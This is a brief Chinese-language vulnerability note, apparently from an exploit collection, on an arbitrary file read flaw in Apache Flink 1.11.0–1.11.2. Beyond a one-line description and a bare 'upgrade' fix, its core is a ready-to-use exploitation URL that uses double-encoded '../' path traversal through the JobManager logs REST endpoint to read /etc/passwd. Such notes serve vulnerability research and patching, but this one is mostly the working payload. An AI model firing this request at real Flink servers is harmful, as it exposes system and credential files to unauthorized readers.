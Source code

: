 ### 一 漏洞名
flink任意文件读取

影响范围：Flink 1.11.0、1.11.1、1.11.2

### 二 漏洞描述
Flink是Apache基金会的一款开源的分布式流数据处理引擎。  
该漏洞允许攻击者通过JobManager进程的REST接口读取本地文件系统上的任意文件。

### 三 利用方式
```angular2html
http://192.168.2.129:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

### 四 修复方式
升级新版本
